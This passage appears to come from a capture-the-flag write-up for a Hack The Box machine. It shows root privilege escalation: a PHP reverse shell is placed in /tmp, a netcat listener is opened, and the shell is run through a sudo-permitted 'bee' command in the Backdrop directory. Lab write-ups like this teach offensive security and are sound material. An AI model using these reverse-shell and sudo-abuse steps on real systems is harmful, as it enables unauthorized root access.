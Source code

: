 ```bash
bee --help
```

![bee-help](/images/htb-dog/bee-help.png)

Using the `PHP PentestMonkey` reverse shell on [revshells.com](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"} we can
create another payload to give us a `root` shell! I placed it
in `/tmp/revshell.php`

Setup a listener as before

```bash
nc -lvnp 4444
```

In order for the `bee` command to run correctly we need to be in the
`Backdrop` root directory. Then we can run our `PHP` reverse shell payload
as `root`

```bash
cd /var/www/html
sudo /usr/local/bin/bee scr /tmp/revshell.php
```

![root-txt](/images/htb-dog/root-txt.png)
